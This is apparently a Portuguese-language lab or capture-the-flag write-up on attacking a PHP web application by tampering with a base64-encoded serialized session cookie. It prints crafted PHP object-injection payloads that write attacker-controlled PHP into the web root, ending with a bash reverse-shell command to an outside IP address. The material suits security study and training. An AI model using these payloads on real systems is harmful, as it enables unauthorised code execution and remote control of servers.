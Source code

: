 Enumerando a aplicação encontramos um cookie de sessão encodado em base64:
![[2025-08-20_08-00.png]]
Enumerando a aplicação encontramos o código fonte na pasta .git:
![[2025-08-20_08-03.png]]
Temos o arquivo auth_class.php que possui uma função destruct()
com uma falha de LFI:
![[2025-08-20_08-13.png]]
Ela recebe o que é passado em $username dentro do cookie e adicionar na pasta tmp:
```
O:4:"Auth":3:{s:4:"auth";i:0;s:8:"username";s:5:"guest";s:4:"role";s:5:"guest";} 
```
Vamos alterar o tamanho do campo de usarname e vamos fazer um LFI. Devemos enviar o payload para aplicação no campo de cookies codificado em base64:
```
O:4:"Auth":3:{s:4:"auth";i:0;s:27:"../../var/www/html/text.php";s:5:"guest";s:4:"role";s:5:"guest";}
```
Alterando o campo $username para um valor do diretório da aplicação podemos explorar o LFI:
```
O:4:"Auth":3:{s:4:"auth";i:1;s:8:"username";s:27:"../../var/www/html/test.php";s:4:"role";s:5:"admin";}
```
Depois acessado pelo arquivo temos ele respondendo com o conteúdo do cookie:
![[Pasted image 20250820085546.png]]

Analisando o código fonte temos que o parametro auth tambem é vulneral a LFI pois ele não é validado:
![[2025-08-20_10-14.png]]

Como a aplicação está processando nosso arquivo .php podemos tentar ler o phpinfo.php para entender como o servidor está configurado>
Vamos modificar o tipo do parâmetro auth e adicionar nossos payloads php dentro dele:
```
O:4:"Auth":3:{s:4:"auth";s:18:"<?php phpinfo();?>";s:8:"username";s:27:"../../var/www/html/test.php";s:4:"role";s:5:"admin";}
```
![[2025-08-20_09-15.png]]
Vamos usar um payload para obter uma shell reversa:
```
O:4:"Auth":3:{s:4:"auth";s:72:"<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.23.219/443 0>&1'");?>";s:8:"username";s:27:"../../var/www/html/test.php";s:4:"role";s:5:"admin";}
```
E enviando o payload conseguimos nossa reverse shell:
![[2025-08-20_10-10.png]]

`


